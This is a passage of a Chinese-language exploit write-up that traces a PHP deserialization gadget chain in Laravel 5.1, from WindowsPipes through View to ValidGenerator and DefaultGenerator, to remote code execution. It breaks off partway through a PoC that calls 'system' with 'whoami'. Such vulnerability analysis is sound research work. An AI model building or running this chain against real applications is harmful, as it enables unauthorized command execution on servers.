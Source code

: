 0x00 准备
=======

使用composer拉一个laravel5.1的环境  
`composer create-project --prefer-dist laravel/laravel laravel5.1 "5.1.*"`  
配置路由 控制等不在叙述

0x01 RCE1
=========

先搜索`__destruct`方法  
在`WindowsPipes`类中`__destruct`方法可任意删除文件

![Pasted image 20220507090840.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-eeb9a594d716220f07c147e1c48e881b16381182.png)

这里调用到了`$this->removeFiles()`跟进查看

![Pasted image 20220507090919.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-442903f03e609a28e39cf2fd3cacd2412c5aefbc.png)

遍历了`$this->files`判断文件是否存在，然后删除文件。这里调用`__toString`  
全局搜索`__toString`  
在`View`类中`__toString`方法调用了`$this->render()`

![Pasted image 20220507092644.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-b8301617a1b15b7e907529e5a0ea65c1f068c9cb.png)

跟进这个函数看看

![Pasted image 20220507092712.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-6aae6f2b01b82855179e9067f80fea7dc9e9698e.png)

发现调用了`$this->renderContent()`  
跟进看看

![Pasted image 20220507092746.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-cedc4b520711b311bc8a53134feecf4b89cc834c.png)

这里调用了`$this->factory->incrementRender()`可以调用任意类的`__call`方法  
全局搜索`__call`方法  
在`ValidGenerator`类中`__call`方法需要控制参数达到RCE的目的

![Pasted image 20220507093012.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-896ceaf87a834f5e5d2e7ad96e92fb0cdb66e84d.png)

`$this->vaildator`可控，接下来我们只需要控制`$res`即可  
`$res = call_user_func_array(array($this->generator, $name), $arguments);`  
调用方式为任意类的函数方法，`$this->generator`可控，所以就代表了可以调用任意类的`__call`方法，我们只需要找到一个`__call`方法返回任何值即可。  
在`DefaultGenerator`类中`__call`方法可以返回任意值，

![Pasted image 20220507093336.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-f0075bb04519bc32ee3c69ef83ffd69ac879ba3a.png)

接下来构造poc

```php
<?php
namespace Faker;
class DefaultGenerator{
    protected $default;
    public function __construct(){
        $this->default='whoami';
    }
}

namespace Faker;
class ValidGenerator{
    protected $generator;
    protected $validator;
    protected $maxRetries;
    public function __construct(){
        $this->maxRetries=1;
        $this->validator='system';
        $this->generator=new DefaultGenerator;
```